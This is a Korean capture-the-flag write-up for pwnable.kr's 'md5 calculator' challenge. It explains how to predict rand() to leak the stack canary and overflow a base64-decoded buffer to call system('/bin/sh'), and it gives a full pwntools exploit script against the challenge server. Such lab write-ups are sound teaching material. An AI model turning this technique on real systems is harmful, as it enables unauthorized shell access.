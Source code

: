 # _md5 calculator_

**Category:** _Pwnable_

**Source:** _pwnable.kr_

**Points:** _200_

**Author:** _galaxy(김경환)_

**Description:** 

> ![img](resource/prob.png)

## Point
- RTL

## Write-up

1. code분석

![main](resource/main.png)

srand(time(0))으로 seed를 정하기 때문에 시간만 맞추면 rand()의 값들을 알아 낼 수 있습니다.

my_hash의 결과값을 printf로 찍어줍니다.

scanf로 받은 값이 my_hash의 값과 같으면 process_hash()를 실행해 줍니다.

system()이 있어서 libc leak할 필요없이 plt, got에 system이 존재합니다. 이 system을 활용해서 shell을 따내려 합니다.

![my_hash](resource/my_hash.png)

my_hash 코드입니다.

rand()를 8번 진행해서 array에 저장합니다.

canary와 array의 첫번째 값을 제외한 7개의 값을 연산한 결과를 return 합니다.

main에서 이 값을 print해주기 때문에 rand()의 값들만 알아주면 canary 값을 알 수 있습니다.

![process_hash](resource/process_hash)

process_hash 코드입니다.

v3를 0x200만큼 memset합니다.

g_buf(전역변수)를 1024만큼 input을 받습니다.

base64decode함수로 입력받은 g_buf를 decoding하여 v3에 저장합니다.

이때 bof가 일어납니다.

2. exploit 작성

process_hash에서 bof를 이용해서 RTL로 system('/bin/sh')를 호출 하려 합니다.

canary는 my_hash에서 leak할 수 있습니다.

주의할 점은 input을 base64로 encoding한값을 넣어줘야한다.
(input을 base64 decoding해서 stack에 저장하기 때문)
("/bin/sh" 문자열은 base64할필요없이 위의 payload뒤에 붙여주면 된다. 전역변수인 g_buf의 기준으로 값을 읽어올 예정이기 때문이다......이것땜에 삽질좀했었다....ㅜ)

time()을 맞춰줘서 srand seed값을 동일하게 한후 rand()를 알아낸다.

print로 찍어주는 my_hash의 ret값에서 알아낸 rand()들을 이용해서 canary를 알아낸다.

payload = dummy(512) + system_plt + dummy(12) + "/bin/sh"문자열의 주소(g_buf의 주소 + len(b64 encoding된 payload))

payload를 b64로 encoding한다.

그 뒤에 "/bin/sh"문자열을 추가로 입력해준다.


```python
from pwn import *
import base64
from ctypes import *
from ctypes.util import find_library

if __debug__:
	script='''b*process_hash+226
	c
	'''
	# p=gdb.debug('./hash',script)
	p=process('./hash')
else:
	p=remote('pwnable.kr',9002)

e=ELF('./hash')
system_plt=e.plt['system']
g_buf=e.symbols['g_buf']

p.recvuntil('cha : ')
num=int(p.recvline())
print('num = '+hex(num))
libc = CDLL(find_library('c'))
libc.srand(libc.time(0))
array=[libc.rand() for i in range (8)]
canary=num-array[1]-array[2]+array[3]-array[4]-array[5]+array[6]-array[7]
canary=canary&0xffffffff	

print('canary = '+hex(canary))

# payload='/bin/sh\n'+'a'*(512-8)
payload='a'*(512)
payload+=p32(canary)+'aaaa'*3+p32(system_plt)
payload+='aaaa'+p32(g_buf+720)

payload=base64.b64encode(payload)+'/bin/sh\x00'

p.sendline(str(num))

p.recvline()
p.recvline()
p.sendline(payload)

p.interactive()
p.close()
```




Flag : **_submit 한 flag_**

## References
_문제를 풀면서 도움을 받은 사이트들_

_표 또는 리스트로 작성_
